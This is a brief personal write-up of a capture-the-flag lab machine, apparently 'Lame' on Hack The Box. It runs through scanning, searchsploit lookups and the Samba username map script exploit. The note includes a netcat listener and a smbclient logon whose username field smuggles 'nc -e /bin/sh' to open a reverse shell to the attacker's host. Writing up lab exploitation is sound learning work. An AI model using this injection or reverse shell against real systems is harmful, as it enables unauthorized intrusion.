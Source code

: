 ## ping
![[Pasted image 20230925090920.png]]
## nmap
![[Pasted image 20230925090957.png]]
#port21 
#searchsploit 
```zsh
sudo searchsploit vsftpd 2.3.4
```
![[Pasted image 20230925091626.png]]
```zsh
searchsploit -x 17491
```
Seem to not work.. 
![[Pasted image 20230925091306.png]]Let's continue!
#smb
```zsh
sudo searchsploit samba 3.0.2
```
```zsh
searchsploit -x 16320
```
![[Pasted image 20230925093406.png]]
1. start Netcat
```zsh
sudo nc -lnvp 1234
```
2. need to connect
```zsh
sudo smbclient --no-pass //10.10.10.3/tmp
```
3. use 'logon' + the payload (username = "/=`nohup " + payload.encoded + "`" )
```zsh
logon username = "/=`nohup nc -e /bin/sh 10.10.10.6 1234`" 
```
![[Pasted image 20230925094216.png]]
Done!